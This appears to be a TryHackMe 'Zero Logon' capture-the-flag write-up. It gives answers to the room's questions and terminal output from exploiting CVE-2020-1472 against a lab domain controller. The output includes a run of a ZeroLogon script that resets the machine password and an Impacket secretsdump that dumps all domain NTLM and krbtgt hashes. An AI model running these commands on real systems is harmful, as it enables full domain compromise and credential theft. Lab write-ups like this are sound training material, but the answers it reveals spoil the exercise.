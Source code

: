 ```
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode:
|   2.02:
|_    Message signing enabled and required
| smb2-time:
|   date: 2020-10-30T14:24:37
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 282.92 seconds
```

1. What is the NetBIOS name of the Domain Controller?

`DC01`

2. What is the NetBIOS domain name of the network?

`HOLOLIVE`

3. What domain are you attacking?

`hololive.local`

4. What is the Local Administrator's NTLM hash?

```
(impacketEnv) bibo318@parrot:~/CTFs/tryhackme/Zero Logon$ python3 zeroLogon-NullPass.py DC01 10.10.162.183

 _____                   __
/ _  / ___ _ __ ___     / /  ___   __ _  ___  _ __
\// / / _ \ '__/ _ \   / /  / _ \ / _` |/ _ \| '_ \
 / //\  __/ | | (_) | / /__| (_) | (_| | (_) | | | |
/____/\___|_|  \___/  \____/\___/ \__, |\___/|_| |_|
                                  |___/
                Vulnerability Discovered by Tom Tervoort
                              Exploit by Ronnie Bartwitz

Performing authentication attempts...
Failure to Autheticate at attempt number: 148
Zero Logon successfully exploited, changing password.
```

```
(impacketEnv) bibo318@parrot:~/CTFs/tryhackme/ZeroLogon$ ./impacketEnv/bin/secretsdump.py -just-dc -no-pass DC01\$@10.10.162.183
Impacket v0.9.22.dev1+20201015.130615.81eec85a - Copyright 2020 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:3f3ef89114fb063e3d7fc23c20f65568:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:2179ebfa86eb0e3cbab2bd58f2c946f5:::
hololive.local\a-koronei:1104:aad3b435b51404eeaad3b435b51404ee:efc17383ce0d04ec905371372617f954:::
hololive.local\a-fubukis:1106:aad3b435b51404eeaad3b435b51404ee:2c90bc6c1c35b71f455f3d08cf4947bd:::
hololive.local\matsurin:1107:aad3b435b51404eeaad3b435b51404ee:a4c59da4140ebd8c59410370c687ef51:::
hololive.local\fubukis:1108:aad3b435b51404eeaad3b435b51404ee:f78bb88e1168abfa165c558e97da9fd4:::
hololive.local\koronei:1109:aad3b435b51404eeaad3b435b51404ee:efc17383ce0d04ec905371372617f954:::
hololive.local\okayun:1110:aad3b435b51404eeaad3b435b51404ee:a170447f161e5c11441600f0a1b4d93f:::
hololive.local\watamet:1115:aad3b435b51404eeaad3b435b51404ee:50f91788ee209b13ca14e54af199a914:::
hololive.local\mikos:1116:aad3b435b51404eeaad3b435b51404ee:74520070d63d3e2d2bf58da95de0086c:::
DC01$:1001:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:3415e858d1caff75baeb02c4dd7154328ea6c87f07336a5c926014392a40ed49
```